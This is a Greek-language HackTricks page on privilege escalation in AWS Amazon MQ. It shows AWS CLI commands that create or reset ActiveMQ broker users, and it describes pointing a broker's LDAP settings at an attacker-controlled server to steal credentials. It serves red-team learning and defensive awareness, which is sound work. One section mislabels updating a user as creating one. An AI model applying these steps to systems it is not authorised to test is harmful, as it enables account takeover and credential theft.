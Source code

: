 # AWS - MQ Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

Για περισσότερες πληροφορίες σχετικά με το MQ ελέγξτε:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Με αυτές τις άδειες μπορείτε να **δημιουργήσετε έναν νέο χρήστη σε έναν broker ActimeMQ** (αυτό δεν λειτουργεί σε RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες πληροφορίες μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Με αυτές τις άδειες μπορείτε να **δημιουργήσετε έναν νέο χρήστη σε έναν broker ActiveMQ** (αυτό δεν λειτουργεί στο RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες πληροφορίες μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Εάν ένας broker χρησιμοποιεί **LDAP** για εξουσιοδότηση με το **ActiveMQ**. Είναι δυνατόν να **αλλάξει** την **διαμόρφωση** του διακομιστή LDAP που χρησιμοποιείται σε **έναν που ελέγχεται από τον επιτιθέμενο**. Με αυτόν τον τρόπο, ο επιτιθέμενος θα είναι σε θέση να **κλέψει όλα τα διαπιστευτήρια που αποστέλλονται μέσω LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Αν μπορούσατε με κάποιον τρόπο να βρείτε τα αρχικά διαπιστευτήρια που χρησιμοποιήθηκαν από το ActiveMQ, θα μπορούσατε να εκτελέσετε μια MitM, να κλέψετε τα διαπιστευτήρια, να τα χρησιμοποιήσετε στον αρχικό διακομιστή και να στείλετε την απάντηση (ίσως απλά επαναχρησιμοποιώντας τα κλεμμένα διαπιστευτήρια να μπορούσατε να το κάνετε αυτό).

**Πιθανές Επιπτώσεις:** Κλοπή διαπιστευτηρίων ActiveMQ

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
